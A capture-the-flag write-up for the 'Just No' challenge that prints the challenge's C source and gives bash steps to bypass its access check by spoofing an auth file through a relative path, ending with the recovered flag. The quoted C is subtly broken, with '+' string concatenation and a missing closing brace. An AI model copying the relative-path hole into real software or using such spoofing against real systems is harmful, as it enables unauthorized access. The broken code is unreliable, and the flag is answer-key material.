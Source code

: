 ##Just No
**A program at /problems/ec9da1496f80c8248197ba564097cebb has access to a flag but refuses to share it. Can you convince it otherwise?**

>Hints:
>
>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

First of all, navigate to the problem directory. Here we have four files:

- auth
- flag
- justno
- justno.c

We cannot access the flag file at all, we can read auth and justno.c and execute justno. Executing just no gives us:

```
auth file says no. So no. Just... no.
```

Auth file is blocking us. Lets see what it says:

`cat auth` gives us `no`.

Since we cannot modify the auth file, we can take a look at the justno.c:

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  //access auth file in ../../../problems/ec9da...7cebb
  FILE* authf = fopen("../../problems/ec9da...7cebb/auth","r");
  if(authf == NULL){
    printf("could not find auth file in ../../problems/ec9da...7cebb/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/ec9da...7cebb/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... " + 
    	"Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
```

Looking at the source code, we can see that the auth and flag files are accessed in different ways despite being located in the same directory. Th auth file is accessed using a relative path. This means we can spoof it provided we provide a similar directory structure.

Since we need to make our own auth file, we work from our home directory. Here we make two directories: problems and ec9da1496f80c8248197ba564097cebb to mimic the same structure expected in the justno executable.

```bash
mkdir problems
cd problems
mkdir ec9da1496f80c8248197ba564097cebb
cd ec9da1496f80c8248197ba564097cebb
```
Inside ec9da1496f80c8248197ba564097cebb directory we create our own auth file:

```bash
echo "yes" > auth
```

Next we run the justno executable from  our copy of the ec9da1496f80c8248197ba564097cebb directory. We can do this by:

```bash
#run justno located in the original ec9da1496f80c8248197ba564097cebb dir
/problems/ec9da1496f80c8248197ba564097cebb/justno
```

Doing so gives us the flag:

```
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 
e4cec8fdf76a931b03ad7ef026103d43
```
